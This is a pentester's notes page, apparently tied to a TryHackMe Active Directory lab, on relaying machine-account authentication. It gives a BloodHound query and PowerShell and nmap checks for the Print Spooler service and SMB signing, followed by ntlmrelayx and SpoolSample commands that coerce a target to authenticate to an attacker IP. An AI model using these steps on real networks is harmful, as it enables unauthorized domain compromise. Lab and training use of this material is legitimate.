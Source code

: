 **Beware: Some of these attacks can be unstable, cause crashes or without callback.**

All Windows hosts have a machine account and their passwords are uncrackable, by default, they are 120 characters (UTF16) long and are automatically rotated every 30 days. Within Active Directory, machine account are used for services across the scope of which other organisation units has access to that service. DCs use their machine accounts to synchronise AD updates and changes. Machine accounts are used for authentication to the AD Certificate Service when you request a certificate on behalf of the host machine you make the request from. 

Due to tiering  of privileges as higher tiers manage ever larger group of networked machines exceptional case in AD configuration occurs frequently where one machine has administrative permissions over a host have been granted to another host. This is normal it is expected functionality as domain controllers or SQL clusters that must be synchronised.

## Attack Path

First identify cases where a machine account has administrative access over another machine - [[Neo4j-And-Bloodhound-Guide]]
Bloodhound query - `Click -> "Create Custom Query" in the Analysis tab in Bloodhound`
```js
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```


## That printer bug...

*It's not a bug, it's a feature - Microsoft.*

The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address.

-   A Machine Account administrative privileges 
-   A valid set of AD account credentials.
-   Network connectivity to the target's SMB service.
-   The target host must be running the Print Spooler service.
-   The hosts must not have SMB signing enforced.

```powershell
GWMI Win32_Printer -Computer $printer_name.$domain # verify printer is running
# If access denied attempt the follow
Get-PrinterPort -ComputerName $printer_name.$domain # backup version of the above command
# Beware viewing port is being cracked down by Microsoft so maybe the blue team is already there..
# nmap to see if smb signing is enforced 
nmap --script=smb2-security-mode -p445 $domain

```

**Beware: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed.**



[SpoolSample](https://github.com/leechristensen/SpoolSample) is a C# exploit to exploit the authencation relay. First setup [[Impacket-Cheatsheet]] - `ntlmrelayx`
```bash
ntlmrelayx -smbsupport -t smb://"Machine Account administrative privileges host IP goes here"
-debug 
```
If we specified the hostname of `"Machine Account administrative privileges host"` the hsot could request that we use Kerberos authenication instead of NTLM. Now coerce target to authenicate to us.
```powershell
SpoolSample.exe $target.$domain "Attacker IP"
```

## References

[THM Exploiting AD Room](https://tryhackme.com/room/exploitingad)